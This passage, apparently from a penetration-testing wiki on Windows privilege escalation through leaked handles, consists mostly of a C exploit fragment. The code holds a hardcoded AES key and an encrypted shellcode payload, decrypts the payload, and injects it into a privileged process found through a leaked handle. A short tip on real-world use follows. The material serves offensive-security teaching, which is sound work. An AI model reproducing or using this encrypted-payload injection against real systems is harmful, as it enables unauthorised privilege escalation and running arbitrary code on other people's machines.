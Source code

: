 ```c
    char key[] = { 0x49, 0xbc, 0xa5, 0x1d, 0xa7, 0x3d, 0xd6, 0x0, 0xee, 0x2, 0x29, 0x3e, 0x9b, 0xb2, 0x8a, 0x69 };
    unsigned char payload[] = { 0x6b, 0x98, 0xe8, 0x38, 0xaf, 0x82, 0xdc, 0xd4, 0xda, 0x57, 0x15, 0x48, 0x2f, 0xf0, 0x4e, 0xd3, 0x1a, 0x70, 0x6d, 0xbf, 0x53, 0xa8, 0xcb, 0xbb, 0xbb, 0x38, 0xf6, 0x4e, 0xee, 0x84, 0x36, 0xe5, 0x25, 0x76, 0xce, 0xb0, 0xf6, 0x39, 0x22, 0x76, 0x36, 0x3c, 0xe1, 0x13, 0x18, 0x9d, 0xb1, 0x6e, 0x0, 0x55, 0x8a, 0x4f, 0xb8, 0x2d, 0xe7, 0x6f, 0x91, 0xa8, 0x79, 0x4e, 0x34, 0x88, 0x24, 0x61, 0xa4, 0xcf, 0x70, 0xdb, 0xef, 0x25, 0x96, 0x65, 0x76, 0x7, 0xe7, 0x53, 0x9, 0xbf, 0x2d, 0x92, 0x25, 0x4e, 0x30, 0xa, 0xe7, 0x69, 0xaf, 0xf7, 0x32, 0xa6, 0x98, 0xd3, 0xbe, 0x2b, 0x8, 0x90, 0x0, 0x9e, 0x3f, 0x58, 0xed, 0x21, 0x69, 0xcb, 0x38, 0x5d, 0x5e, 0x68, 0x5e, 0xb9, 0xd6, 0xc5, 0x92, 0xd1, 0xaf, 0xa2, 0x5d, 0x16, 0x23, 0x48, 0xbc, 0xdd, 0x2a, 0x9f, 0x3c, 0x22, 0xdb, 0x19, 0x24, 0xdf, 0x86, 0x4a, 0xa2, 0xa0, 0x8f, 0x1a, 0xe, 0xd6, 0xb7, 0xd2, 0x6c, 0x6d, 0x90, 0x55, 0x3e, 0x7d, 0x9b, 0x69, 0x87, 0xad, 0xd7, 0x5c, 0xf3, 0x1, 0x7c, 0x93, 0x1d, 0xaa, 0x40, 0xf, 0x15, 0x48, 0x5b, 0xad, 0x6, 0xb5, 0xe5, 0xb9, 0x92, 0xae, 0x9b, 0xdb, 0x9a, 0x9b, 0x4e, 0x44, 0x45, 0xdb, 0x9f, 0x28, 0x90, 0x9e, 0x63, 0x23, 0xf2, 0xca, 0xab, 0xa7, 0x68, 0xbc, 0x31, 0xb4, 0xf9, 0xbb, 0x73, 0xd4, 0x56, 0x94, 0x2c, 0x63, 0x47, 0x21, 0x84, 0xa2, 0xb6, 0x91, 0x23, 0x8f, 0xa0, 0x46, 0x76, 0xff, 0x3f, 0x75, 0xd, 0x51, 0xc5, 0x70, 0x26, 0x1, 0xcf, 0x23, 0xbf, 0x97, 0xb2, 0x8d, 0x66, 0x35, 0xc8, 0xe3, 0x2, 0xf6, 0xbd, 0x44, 0x83, 0xf2, 0x80, 0x4c, 0xd0, 0x7d, 0xa3, 0xbd, 0x33, 0x8e, 0xe8, 0x6, 0xbc, 0xdc, 0xff, 0xe0, 0x96, 0xd9, 0xdc, 0x87, 0x2a, 0x81, 0xf3, 0x53, 0x37, 0x16, 0x3a, 0xcc, 0x3c, 0x34, 0x4, 0x9c, 0xc6, 0xbb, 0x12, 0x72, 0xf3, 0xa3, 0x94, 0x5d, 0x19, 0x43, 0x56, 0xa8, 0xba, 0x2a, 0x1d, 0x12, 0xeb, 0xd2, 0x6e, 0x79, 0x65, 0x2a };
    unsigned int payload_len = sizeof(payload);

    printf("My PID: %d\n", GetCurrentProcessId());
    getchar();

    // find a leaked handle to a process
    hProc = GetVulnProcHandle();

    if ( hProc != NULL) {

        // d#Decrypt payload
        AESDecrypt((char *) payload, payload_len, key, sizeof(key));
        printf("[+] Sending gift...");
        // Inject and run the payload in the privileged context
        Inject(hProc, payload, payload_len);
        printf("done.\n");
    }
    getchar();

    return 0;
}
```

## Exploit Example 2

{% hint style="info" %}
In a real scenario you probably** won't be able to control the binary** that is going to be executed by the vulnerable code (_C:\users\username\desktop\client.exe_ in this case). Probably you will** compromise a process and you will need to look if you can access any vulnerable handle of any privileged process**.
{% endhint %}
